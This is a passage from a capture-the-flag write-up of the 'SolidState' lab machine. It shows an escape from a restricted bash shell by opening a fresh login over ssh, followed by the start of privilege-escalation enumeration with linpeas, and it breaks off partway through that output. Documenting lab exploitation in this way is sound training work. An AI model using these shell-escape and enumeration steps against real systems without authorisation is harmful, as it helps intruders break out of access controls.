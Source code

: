 I got a shell!

However, it seems that I'm in a restricted shell.
Many commands return just an error (Command not existing).

```bash
mindy@solidstate:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
mindy@solidstate:~$ echo $SHELL
/bin/rbash
```

Escape using `/bin/bash` is not allowed, and now I'm in `rbash`.

Here I found a reference to escape from the restricted shell:
https://0xffsec.com/handbook/shells/restricted-shells/

I tried them all, and this one worked!

![](attachments/solidstate_4.png)

```bash
┌──(kali㉿kali)-[~]
└─$ ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ export PS1="\u@\h:\W\$ "
mindy@solidstate:~$ echo $SHELL
/bin/rbash
mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
mindy@solidstate:~$ whoami
mindy
mindy@solidstate:~$ ls bin
cat  env  ls
```

The original restricted shell only has 3 commands available.



# Shell as `root`?

### Enumeration

Let's run `linpeas` script.

```bash
mindy@solidstate:~$ ./linpeas_linux_386

╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                        
Linux version 4.9.0-3-686-pae (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18) ) #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06)
Distributor ID: Debian
Description:    Debian GNU/Linux 9.0 (stretch)
Release:        9.0
Codename:       stretch



```